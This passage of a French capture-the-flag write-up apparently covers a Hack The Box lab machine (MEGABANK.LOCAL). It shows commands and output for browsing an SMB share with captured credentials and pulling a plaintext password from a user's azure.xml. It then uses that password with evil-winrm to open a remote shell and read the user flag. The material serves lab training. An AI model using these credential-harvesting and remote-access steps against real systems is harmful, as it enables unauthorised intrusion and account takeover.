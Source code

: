 Dans users$ on trouve le dossier d'un autre utilisateur "**mhope**" avec un fichier `azure.xml` :
```bash
$ smbclient //10.10.10.172/users$ -U MEGABANK.LOCAL/SABatchJobs      
Password for [MEGABANK.LOCAL\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .           D  0  Fri Jan  3 14:12:48 2020
  ..          D  0  Fri Jan  3 14:12:48 2020
  dgalanos       D  0  Fri Jan  3 14:12:30 2020
  mhope          D  0  Fri Jan  3 14:41:18 2020
  roleary        D  0  Fri Jan  3 14:10:30 2020
  smorgan        D  0  Fri Jan  3 14:10:24 2020

		31999 blocks of size 4096. 28979 blocks available
smb: \> cd mhope
smb: \mhope\> ls
  .           D  0  Fri Jan  3 14:41:18 2020
  ..          D  0  Fri Jan  3 14:41:18 2020
  azure.xml        AR  1212  Fri Jan  3 14:40:23 2020

		31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml 
getting file \mhope\azure.xml of size 1212 as azure.xml (15.0 KiloBytes/sec) (average 15.0 KiloBytes/sec)
```
Dans ce fichier se trouve un mot de passe `4n0therD4y@n0th3r$`:
```bash
cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
 <TN RefId="0">
   <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
   <T>System.Object</T>
 </TN>
 <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
 <Props>
   <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
   <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
   <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
   <S N="Password">4n0therD4y@n0th3r$</S>
 </Props>
  </Obj>
</Objs>#      
```

### Evil-winrm : mhope -> user flag
On obtient un accès via evil winrm en tant que **mhope** avec le mot de passe trouvé précédemment `4n0therD4y@n0th3r$` :
```bash
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i "10.10.10.172"
          
Evil-WinRM shell v3.7
          
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> cat "C:/Users/mhope/Desktop/user.txt"
4437.....5f01
```
